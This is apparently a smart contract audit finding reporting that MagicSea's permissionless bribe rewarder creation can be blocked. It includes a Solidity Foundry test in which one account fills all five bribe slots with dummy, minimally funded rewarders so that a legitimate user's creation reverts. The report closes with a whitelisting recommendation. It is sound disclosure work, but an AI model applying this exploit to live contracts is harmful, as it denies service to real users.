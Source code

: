 Lone Opaque Mustang

Medium

# Bribe rewarder pool creation can be DoSed

## Summary
As the bribe rewarder pool creation is permissionless, and there is a cap to the number of bribe rewarders that can be created per pool (`MAX_BRIBES_PER_POOL = 5`), a malicious party can create rewarder pools with dummy tokens and large periods to DoS valid bribe rewarder pool creations.

## Vulnerability Detail
Anyone can create a `BribeRewarder` through the `RewardFactory` with any ERC20 token. Upon funding the bribe pool, it calls `Voter.onRegister()`, which caps the number of rewarders that can be added. Hence, it would be possible for anyone to create many dummy pools that are seeded with minimal liquidity for long voting periods to block valid bribe rewarder creations.

## POC
The setup can be found in the gist.
https://gist.github.com/Reentrants/50898e49155a13b9eddbe69ea52c1a19#file-e2etest-t-sol-L193-L204

For brevity, the case is linked below.
```solidity
function test_DoS_bribe_creation() public {
  vm.startPrank(alice);
  for (uint i; i < 5; ++i) {
      bribeRewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(IERC20(address(0)), address(tokenA)))));
      // 1000 periods, minimal wei amount per period
      bribeRewarder.fundAndBribe{value: 1000 wei}(1, 100, 1);
  }
  vm.startPrank(bob);
  bribeRewarder = BribeRewarder(payable(address(rewarderFactory.createBribeRewarder(IERC20(address(0)), address(tokenA)))));
  vm.expectRevert("too much bribes");
  bribeRewarder.fundAndBribe{value: 1000 wei}(1, 100, 1);
}
```

## Impact
Users desiring to create a valid bribe rewarder pool cannot do so.

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/7fd1a65b76d50f1bf2555c699ef06cde2b646674/magicsea-staking/src/Voter.sol#L141
https://github.com/sherlock-audit/2024-06-magicsea/blob/7fd1a65b76d50f1bf2555c699ef06cde2b646674/magicsea-staking/src/rewarders/BribeRewarder.sol#L255

## Tool used
Manual Review

## Recommendation
Consider whitelisting the type of tokens that can be used as bribes, and enforcing a minimum amount per voting period for each token.